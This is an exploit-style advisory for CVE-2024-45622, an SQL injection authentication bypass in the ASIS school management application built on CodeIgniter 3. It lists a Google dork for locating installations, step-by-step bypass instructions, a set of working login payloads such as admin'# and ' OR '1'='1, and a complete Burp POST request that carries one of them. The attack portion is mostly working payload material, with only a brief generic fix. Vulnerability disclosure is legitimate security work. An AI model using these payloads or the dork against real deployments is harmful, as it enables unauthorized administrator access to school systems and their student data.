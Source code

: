 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-45622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-45622) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-45622)

### Date:

> 5 July 2024

### Author:

> checkgue

### Author Email:

> checkgue.meta4sec@gmail.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter) (Deprecated)

### Version:

> v 3.0.0 < 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Steps to reproduce:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and use any password you want.
* Step 3 - Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
admin'-- 
'||1#
'||1-- 
'=' 'or'
' OR '1'='1
' or 0=0 ##
superadmin'#
superadmin'-- 
```

## Proof of Concept [Burp Request]:

```
POST /asispanel/login/cek HTTP/1.1
Host: localhost
Cookie: ci_session=0221b92b7d2d402932dfc442b533d7af6d041c18
Content-Length: 57
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/asispanel/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en;q=0.9,id-ID;q=0.8,id;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: keep-alive

username=%27+or+0%3D0+%23%23&password=xyz&submit=&submit=
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.

## References

+ https://aegislens.com/home/cve-2024-45622/
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-45622
* https://www.cve.org/CVERecord?id=CVE-2024-45622
* https://nvd.nist.gov/vuln/detail/CVE-2024-45622
* https://github.com/atoz-chevara/cve/blob/main/2024/ASIS_AplikasiSistemSekolah_Using_CodeIgniter3-SQL_Injection_Authentication_Bypass.md
* https://github.com/advisories/GHSA-8hxv-6g4p-2w59
* https://packetstormsecurity.com/files/181355/ASIS-3.2.0-SQL-Injection.html

```
Greetings to : ==========================
|| Meta4sec * Bungker * Jasakom * ECHO ||
=========================================
```
